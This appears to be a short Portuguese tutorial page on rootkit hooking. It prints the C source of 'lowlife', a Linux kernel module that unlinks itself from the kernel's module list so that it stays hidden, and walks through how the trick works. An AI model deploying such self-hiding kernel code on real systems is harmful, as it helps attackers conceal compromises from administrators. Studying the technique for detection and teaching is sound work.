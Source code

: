 <img width="30%" src="https://i.imgur.com/CGV9DU1.png"></img>

# Hooking
Um hook, é basicamente um gancho em alguma funcionalidade de algum software<br><br>
No caso dos rootkits, esse gancho seria geralmente para ocultar alguma coisa, um exemplo disso é o [lowlife](https://github.com/xnwm0/lowlife), que faz um hook pra se esconder na lista de drivers<br><br>

# lowlife
Veja a source do driver<br><br>
```c
/* 
 * lowlife.c 
 */

#include <linux/module.h>
#include "lowlife.h" /* -- header with low_drv_hide() -- */

static int __init low_init(void)
{
  low_drv_hide(); /* -- call low_drv_hide() -- */
  printk(KERN_INFO "driver lowlife is hidden.\n");
  return 0;
}

static void __exit low_exit(void)
{
  printk(KERN_INFO "driver unloaded.\n");
}

module_init(low_init);
module_exit(low_exit);

/* 
 * lowlife.h
 */

static struct list_head *drv_prev;
void low_drv_hide(void)
{
  drv_prev = THIS_MODULE->list.prev; /* --- load list previous --- */
  list_del(&THIS_MODULE->list); /* --- remove driver from drivers list --- */
}
```
<br>
Perceba que no lowlife.h, é carregada uma list, que seria a lista de drivers do sistema, e é feito um hook para o driver se auto-deletar da list<br><br>

Para entender melhor, veja esse vídeo https://youtu.be/3npnXeOnEAw

[pwn](../README.md)<br>
[home](../../README.md)

